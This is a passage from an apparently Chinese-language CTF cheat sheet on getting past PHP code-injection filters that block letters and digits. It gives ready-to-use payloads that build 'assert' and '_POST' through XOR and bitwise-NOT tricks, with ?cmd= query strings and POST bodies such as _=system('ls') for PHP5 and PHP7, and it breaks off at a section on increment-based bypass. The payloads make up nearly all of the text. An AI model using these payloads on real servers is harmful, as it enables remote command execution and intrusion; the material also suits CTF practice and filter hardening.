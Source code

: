 ```
?cmd=$_ = "!+/(("^"~{`{|";$__ = $$_;`($__['_'])`;

需要进行url编码
```

```
POST提交:_=system('ls')
```

## 取反绕过

### php5

```
<?php
$_=~("%9e%8c%8c%9a%8d%8b");
$__=~("%a0%af%b0%ac%ab");
$___=$$_;
$_($___[_]);
```

```
?cmd=$_=~("%9e%8c%8c%9a%8d%8b");$__=~("%a0%af%b0%ac%ab");$__=$$_;$_($__[_]);

需要进行url编码
```

```
POST提交:_=system('ls')
```



### php7

```
<?php
$__=~("%a0%af%b0%ac%ab");
$___=$$__;
`$___[_]`;
```

```
?cmd=$__=~("%a0%af%b0%ac%ab");$___=$$__;`$___[_]`;

需要进行url编码
```

```
POST提交:_=system('ls')
```



## 3.数字自增绕过

原理$a='A'
